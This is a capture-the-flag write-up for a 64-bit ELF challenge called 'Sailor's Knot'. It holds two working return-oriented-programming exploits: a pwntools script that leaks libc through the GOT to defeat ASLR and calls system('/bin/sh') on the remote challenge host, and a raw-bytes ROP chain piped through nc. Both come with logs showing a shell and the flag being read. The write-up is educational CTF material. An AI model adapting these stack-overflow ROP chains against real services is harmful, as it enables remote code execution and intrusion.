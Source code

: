 # Sailor's Knot
There is a huge variety of sailor's knots, but the common thing is they all use rops
or other types of cords.

```
nc 46.101.107.117 2112
```

Get a shell and read the flag.

[sailorsknot](sailorsknot)

---

This is the next level of [LOTL](../../level5/lotl/README.md) from the level 5.

The file type is also the same:
```
$ file sailorsknot
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=97703c7c27443a213e91b074911c7c744fc34043, not stripped
```

However, this time there is no `profit()` function...

As the challenge description reveals, this
is about [ROP - Return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming).
I had to do some study:
- [Introducing Weird Machines: ROP Differently Explaining part 1 - bin 0x29](https://www.youtube.com/watch?v=8Dcj19KGKWM&t=1s&ab_channel=LiveOverflow) (video)
- [Weird Return-Oriented Programming Tutorial - bin 0x2A](https://www.youtube.com/watch?v=zaQVNM3or7k&t=1s&ab_channel=LiveOverflow) (video)
- [Pwntools ROP Binary Exploitation - DownUnderCTF](https://www.youtube.com/watch?v=i5-cWI_HV8o&ab_channel=JohnHammond) (video)
- [Return-Oriented-Programming (ROP FTW)](https://www.exploit-db.com/docs/english/28479-return-oriented-programming-(rop-ftw).pdf) (PDF)
- [LEAK LIBC ADDRESSES FROM GOT TO EXPLOIT UNKNOWN LIBC, BYPASSING ASLR REMOTELY 64 BIT](https://www.ret2rop.com/2020/04/got-address-leak-exploit-unknown-libc.html) (blog)
- [ROP-PWN template](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp/rop-pwn-template) (code snippet)

The binary contains one extra function `remove_me_before_deploy()`:
```
004007bb 55              PUSH       RBP
004007bc 48 89 e5        MOV        RBP,RSP
004007bf 5f              POP        RDI
004007c0 c3              RET
004007c1 48 31 c0        XOR        RAX,RAX
004007c4 c3              RET
004007c5 48 8d 3d        LEA        RDI,[s_/bin/ls_00400958]                         = "/bin/ls"
         8c 01 00 00
004007cc e8 3f fe        CALL       system                                           int system(char * __command)
         ff ff
004007d1 90              NOP
004007d2 5d              POP        RBP
004007d3 c3              RET
```

Those are some helpful ROP gadgets!

Nevertheless, I was unable to put them to use. I totally missed this:
```
$ strings -t x sailorsknot | grep /bin/sh
1080 Please ensure you remove _all_ references to the /bin/sh
```

I learned about this only after I had solved the challenge with a bit more complicated approach.

I pretty much followed
[Pwntools ROP Binary Exploitation - DownUnderCTF](https://www.youtube.com/watch?v=i5-cWI_HV8o&ab_channel=JohnHammond) (video).

I had issues with [stack alignment](https://wiki.osdev.org/Calling_Conventions#Note3) to 16 bytes,
but once I got around it, all worked just nice:

```python
from pwn import *

context.arch = 'amd64'

elf = ELF("sailorsknot")
rop = ROP(elf)

# First ROP payload to get libc address (bypassing ASLR)
rop.raw(rop.find_gadget(["ret"]))  # Align stack before call to % 16
rop.call("printf", [elf.got["printf"]])
rop.raw(rop.find_gadget(["ret"]))  # Align stack before call to % 16
rop.call("main")
print(rop.dump())

# p = elf.process()  # Local testing
p = remote("46.101.107.117", 2112)

p.recvuntil("\n")  # Welcome! Please give me your name!
p.sendline(b'A' * 40 + rop.chain())
p.recvuntil("\n")  # Hi XYZ, nice to meet you!

printf_address = u64(p.recvuntil("\n")[:6].ljust(8, b"\x00"))  # printf address (6 bytes) + Welcome! Please give ..
print("remote printf address: " + hex(printf_address))  # Address changes with each run (ASLR)

# 'printf' address always ends with e80 (ASLR doesn't change last 3 values because of paging)
# we can do the same exercise for 'gets', the address always ends with 0b0
# using https://libc.blukat.me/ we can determine the exact libc version which is libc6_2.27-3ubuntu1_amd64

# libc = ELF("libc6_2.31-3_amd64.so")  # Local testing
libc = ELF("libc6_2.27-3ubuntu1_amd64.so")

# Set libc base address (current printf address - libc printf offset, 0x064e80 in this version)
libc.address = printf_address - libc.symbols["printf"]
print("libc base address: " + hex(libc.address))

# Second payload to get a remote shell
rop = ROP(libc)
rop.raw(rop.find_gadget(["ret"]))
rop.call("system", [next(libc.search(b"/bin/sh\x00"))])
print(rop.dump())

p.sendline(b'A' * 40 + rop.chain())
p.recvuntil("\n")
p.interactive()
```

It outputs:
```
[*] '/..REDACTED../sailorsknot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'sailorsknot'
0x0000:         0x400295 ret
0x0008:         0x4007bf pop rdi; ret
0x0010:         0x601028 [arg0] rdi = got.printf
0x0018:         0x400620 printf
0x0020:         0x400295 ret
0x0028:         0x400757 main()
[x] Opening connection to 46.101.107.117 on port 2112
[x] Opening connection to 46.101.107.117 on port 2112: Trying 46.101.107.117
[+] Opening connection to 46.101.107.117 on port 2112: Done
remote printf address: 0x7f1f6e4e7e80
[*] '/..REDACTED../libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc base address: 0x7f1f6e483000
[*] Loaded 198 cached gadgets for 'libc6_2.27-3ubuntu1_amd64.so'
0x0000:   0x7f1f6e4838aa ret
0x0008:   0x7f1f6e4a455f pop rdi; ret
0x0010:   0x7f1f6e636e9a [arg0] rdi = 139772972723866
0x0018:   0x7f1f6e4d2440 system
[*] Switching to interactive mode
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
challenge2
flag
ynetd
cat flag
he2021{s41l0r_r0p_f0r_pr0f1t}
```

The flag is `he2021{s41l0r_r0p_f0r_pr0f1t}`

I learned a lot here! Thank you for this challenge!

## Easier solution

This is much shorter solution (if you don't overlook the `/bin/sh` string in
`sailorsknot` binary):
```python
import sys

OFFSET = b'A' * 40
POP_RDI = b'\xbf\x07\x40\x00\x00\x00\x00\x00'
BIN_SH = b'\xb0\x10\x60\x00\x00\x00\x00\x00'
CALL_SYSTEM = b'\xcc\x07\x40\x00\x00\x00\x00\x00'

sys.stdout.buffer.write(OFFSET + POP_RDI + BIN_SH + CALL_SYSTEM + b'\x0a')
```

Execute like this:
```
$ (python3 sailorsknot.py; cat) | nc 46.101.107.117 2112                                                           130 ⨯
Welcome! Please give me your name!
> Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@, nice to meet you!
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
challenge2
flag
ynetd
cat flag
he2021{s41l0r_r0p_f0r_pr0f1t}
```
